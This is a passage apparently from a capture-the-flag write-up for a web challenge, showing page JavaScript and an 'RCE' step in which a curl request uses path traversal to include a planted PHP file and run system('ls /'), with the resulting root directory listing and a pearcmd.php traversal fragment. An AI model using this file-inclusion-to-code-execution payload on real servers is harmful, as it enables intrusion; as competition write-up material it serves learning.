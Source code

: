 ```

        let parts = document.querySelectorAll('.lazarus-pit > div');
        for (let i = 0; i < parts.length; i++) {
            let partLength = parts[i].innerHTML.length;

            parts[i].innerHTML = '';

            for (let j = 0; j < partLength; j++) {
                parts[i].innerHTML += message[currIdx % messageLength];
                currIdx++;
            }
        }
    }
</script>
```


### RCE

I tested listing everything in the root directory

```html
(base) [hacker@hackerbook tmp]$ curl "http://sourcelessguessyweb.chall.seetf.sg:1337/?page=../../../tmp/eval.php"  -d "1=system('ls /');"

<!--
\        /|   |\   /   /~~  /~~\    /~~ |~~ |~~\| /~~\ |   |/~~
 \  /\  / |---| \ /    |__ |    |   |__ |-- |__/||    ||   ||__
  \/  \/  |   |  |     ___| \__/    ___||__ |  \| \__/  \_/ ___|
-->

...

/pear";s:7:"man_dir";s:76:"/&page=../../../usr/local/lib/php/pearcmd.php&/bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
readflag
root
run
sbin
srv
sys
tmp
usr
var
/pear/man";}    `.replace(/[^A-Za-z0-9!?]/g, ' ').trim();

    if (message) {
        let currIdx = 0;
        let messageLength = message.length;

        let parts = document.querySelectorAll('.lazarus-pit > div');
        for (let i = 0; i < parts.length; i++) {
            let partLength = parts[i].innerHTML.length;

            parts[i].innerHTML = '';
```